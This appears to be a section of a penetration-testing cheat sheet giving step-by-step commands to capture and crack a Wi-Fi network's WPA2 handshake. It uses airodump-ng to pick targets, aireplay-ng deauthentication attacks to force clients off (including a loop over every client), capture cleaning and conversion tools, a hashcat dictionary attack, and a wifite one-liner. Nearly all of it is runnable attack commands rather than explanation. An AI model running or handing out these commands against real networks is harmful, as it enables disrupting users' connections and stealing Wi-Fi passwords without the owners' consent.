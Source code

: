 
#### 4-Way Handshake

* [https://www.wifi-professionals.com/2019/01/4-way-handshake](https://www.wifi-professionals.com/2019/01/4-way-handshake)
* [https://security.stackexchange.com/questions/66008/how-exactly-does-4-way-handshake-cracking-work](https://security.stackexchange.com/questions/66008/how-exactly-does-4-way-handshake-cracking-work)
* [https://www.aircrack-ng.org/doku.php?id=cracking_wpa](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)
* [https://security.stackexchange.com/questions/111527/no-handshake-recorded-from-airodump-ng](https://security.stackexchange.com/questions/111527/no-handshake-recorded-from-airodump-ng)
* [https://hackware.ru/?p=74](https://hackware.ru/?p=74)
* [https://hackware.ru/?p=7542](https://hackware.ru/?p=7542)
* [https://hackware.ru/?p=5209](https://hackware.ru/?p=5209)

1\. Look for targets. Save BSSID (`00:00:00:00:00:01`), CH (`9`), ESSID (`SomeEssid`) and STATION (`00:00:00:00:00:02`) if deauth will be required:

```
$ sudo airodump-ng -M -U wlan1 [-c 36-165 (for 5GHz, see WLAN channels) or just -c 1-200 for all] [--band <abg>]
qq
```

2\. Start dumping the target's traffic:

```
[$ sudo iwconfig wlan1 channel 9]
$ sudo airodump-ng -c 9 --bssid 00:00:00:00:00:01 -w SomeEssid wlan1
```

3\. Send DeAuth packets in a separate terminal till `WPA handshake: XX:XX:XX:XX:XX:XX` appears (aggressive):

```
$ sudo aireplay-ng [-D] -0 2 -a 00:00:00:00:00:01 -c 00:00:00:00:00:02 wlan1
Or
$ for client in `cat 00:00:00:00:00:01.txt`; do sudo aireplay-ng -D -0 2 -a 00:00:00:00:00:01 -c $client wlan1; done
```

4\. Clean the capture, check it once again, covert to Hashcat format and crack it:

```
$ aircrack-ng SomeEssid*.cap
$ wpaclean SomeEssid-cleaned.cap SomeEssid-01.cap
$ cowpatty -r SomeEssid-cleaned.cap -s SomeEssid -c
$ /usr/lib/hashcat-utils/cap2hccapx.bin SomeEssid-cleaned.cap SomeEssid.hccapx
$ hashcat -m 2500 -O -a 0 -w 4 --session=wpa2_handshakes -o wpa2_handshakes.out wpa2_handshakes.in SomeEssid.hccapx seclists/Passwords/darkc0de.txt
```

##### wifite2

```
$ sudo wifite -vi wlan1 --clients-only --wpa --no-wps
```
